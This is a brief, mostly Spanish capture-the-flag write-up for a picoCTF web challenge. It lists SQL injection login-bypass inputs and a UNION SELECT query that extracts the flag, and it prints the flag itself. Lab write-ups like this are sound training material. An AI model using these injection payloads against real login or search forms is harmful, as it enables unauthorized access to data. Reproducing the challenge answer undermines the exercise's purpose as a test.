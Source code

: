 Descripción
	Can you find the flag on this website.
	Additional details will be available after launching your challenge instance.
	
Solución
	ingrese con las siguientes credenciales usando la inyección sql:
	
	username: ' admin or 1=1;
	password: ' or 1=1;	
	
	use el buscador ingresando lo siguiente:
	
	hola' union select id,flag,3 from more_table;
	
	resultado de la busqueda:
	picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}
Notas adicionales
	
	
Referencias
	http://saturn.picoctf.net:51912/welcome.php
	